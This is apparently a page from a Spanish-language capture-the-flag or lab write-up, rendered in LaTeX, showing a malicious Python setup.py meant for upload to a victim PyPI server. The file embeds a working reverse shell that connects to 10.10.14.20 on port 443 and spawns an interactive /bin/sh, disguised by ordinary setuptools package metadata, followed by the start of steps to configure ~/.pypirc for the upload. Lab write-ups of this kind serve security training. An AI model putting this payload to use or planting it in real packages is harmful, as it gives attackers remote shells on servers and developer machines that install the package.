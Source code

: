 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{import}\NormalTok{ setuptools}
\ImportTok{import}\NormalTok{ socket,subprocess,os}

\NormalTok{s}\OperatorTok{=}\NormalTok{socket.socket(socket.AF_INET,socket.SOCK_STREAM)}
\NormalTok{s.}\ExtensionTok{connect}\NormalTok{((}\StringTok{"10.10.14.20"}\NormalTok{,}\DecValTok{443}\NormalTok{))}
\NormalTok{os.dup2(s.fileno(),}\DecValTok{0}\NormalTok{) }
\NormalTok{os.dup2(s.fileno(),}\DecValTok{1}\NormalTok{)}
\NormalTok{os.dup2(s.fileno(),}\DecValTok{2}\NormalTok{)}
\NormalTok{p}\OperatorTok{=}\NormalTok{subprocess.call([}\StringTok{"/bin/sh"}\NormalTok{,}\StringTok{"-i"}\NormalTok{])}

\NormalTok{setuptools.setup(}
\NormalTok{    name}\OperatorTok{=}\StringTok{"example-pkg-YOUR-USERNAME-HERE"}\NormalTok{,}
\NormalTok{    version}\OperatorTok{=}\StringTok{"0.0.1"}\NormalTok{,}
\NormalTok{    author}\OperatorTok{=}\StringTok{"Example Author"}\NormalTok{,}
\NormalTok{    author_email}\OperatorTok{=}\StringTok{"author@example.com"}\NormalTok{,}
\NormalTok{    description}\OperatorTok{=}\StringTok{"A small example package"}\NormalTok{,}
\NormalTok{    long_description_content_type}\OperatorTok{=}\StringTok{"text/markdown"}\NormalTok{,}
\NormalTok{    url}\OperatorTok{=}\StringTok{"https://github.com/pypa/sampleproject"}\NormalTok{,}
\NormalTok{    classifiers}\OperatorTok{=}\NormalTok{[}
        \StringTok{"Programming Language :: Python :: 3"}\NormalTok{,}
        \StringTok{"License :: OSI Approved :: MIT License"}\NormalTok{,}
        \StringTok{"Operating System :: OS Independent"}\NormalTok{,}
\NormalTok{    ],}
\NormalTok{    python_requires}\OperatorTok{=}\StringTok{">=3.6"}\NormalTok{,}
\NormalTok{)}
\end{Highlighting}
\end{Shaded}

La idea aqui es que cuando el pypi server ejecute el setup.py, queremos que nos entable una reverse shell. El codigo
de la reverse shell es de \textbf{monkey pentester} y la hemos retocado para que vaya en el fichero \texttt{setup.py}.

Configuramos el equipo para poder enviar el paquete al repositorio victima.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{rm}\NormalTok{ ~/.pypirc}
\ExtensionTok{vi}\NormalTok{ ~/.pypirc}
\end{Highlighting}
\end{Shaded}
\end{document}
